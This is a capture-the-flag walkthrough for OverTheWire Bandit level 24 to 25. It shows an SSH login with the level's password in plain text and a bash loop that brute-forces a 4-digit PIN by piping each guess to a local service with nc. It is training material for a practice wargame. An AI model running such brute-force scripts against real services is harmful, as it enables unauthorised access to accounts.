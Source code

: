 # level24 -> level25


[http://http://overthewire.org/wargames/bandit/bandit25.html](http://http://overthewire.org/wargames/bandit/bandit25.html)

-

    ssh bandit24@bandit.labs.overthewire.org

-

    bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


-

    bandit24@melinda:~$ cd /tmp/

-

    bandit24@melinda:/tmp$ mkdir sliitwar24

-

    bandit24@melinda:/tmp$ cd sliitwar24

-

    bandit24@melinda:/tmp/sliitwar24$ nano bruteforce.sh

-

    #!/bin/bash
    PASS24="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
    for i in `seq 0 10000`;
    do
    echo "Handling $i"
    printf "$PASS24 %04d\n" $i |  nc localhost 30002
    
    done

`Ctrl+X` to exit press `Y` to save

-

    bandit24@melinda:/tmp/sliitwar24$ chmod 777 bruteforce.sh

-


   

    